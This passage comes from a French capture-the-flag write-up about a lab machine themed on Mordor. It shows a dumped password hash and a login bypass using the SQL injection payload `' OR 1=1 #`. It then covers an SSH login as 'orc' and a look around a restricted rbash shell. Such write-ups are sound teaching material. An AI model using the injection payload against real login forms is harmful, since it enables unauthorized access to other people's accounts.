 On peut dumper le hash mais il est inconnu de `crackstation` :

```
Database: mordor
Table: blackgate
[1 entry]
+---------+----------+------------------------------------------+
| user_id | username | password                                 |
+---------+----------+------------------------------------------+
| 1       | Azog     | 26f736aacd60fb538e72f1307f1e4bb1322b02bc |
+---------+----------+------------------------------------------+
```

Qu'importe, on peut profiter de la vulnérabilité pour se connecter avec le mot de passe `' OR 1=1 #`.

On obtient alors juste un message indiquant qu'on est connecté, mais en regardant les cookies je vois le texte suivant :

> You found a way to bypass the black gate. A small hole in the rocks gives you an entrance to mordor.
> 
> During the walk yo find a piece of paper. On the paper ther are a hint, there orcs on the other side.
> 
> The last  line looks like a key \"orc + flag = t22.\"

## Exploitation de binaire... Kinda

Ok, les instructions sont plutôt floues. En fait les caractères dans le flag obtenu dans la page web correspondent à un sha1 correspondant au clair `disquise`.

On peut alors se connecter sur le compte `orc` en SSH.

```console
orc@mordor:~$ id
-rbash: id: Kommando nicht gefunden.
```

On est dans un `rbash` et seulement les binaires sont le dossier `bin` sont autorisés :

```console
./bin:
insgesamt 1,9M
drwxr-xr-x 2 orc orc 4,0K Aug 29  2019 .
drwx------ 4 orc orc 4,0K Aug 29  2019 ..
-rwxr-xr-x 1 orc orc  18K Aug  9  2019 door
-rwxr-xr-x 1 orc orc 136K Aug  9  2019 ls
-rwxr-xr-x 1 orc orc  17K Aug 29  2019 outpost
-rwxr-xr-x 1 orc orc 1,2M Aug  9  2019 rbash
-rwxr-xr-x 1 orc orc  67K Aug  9  2019 rm
-rwxr-xr-x 1 orc orc 456K Aug  9  2019 wget
-rwxr-xr-x 1 orc orc  35K Aug  9  2019 whoami
```

`wget` ne supporte pas le scheme `file://` donc je ne peux pas copier bash dans les binaires autorisés.
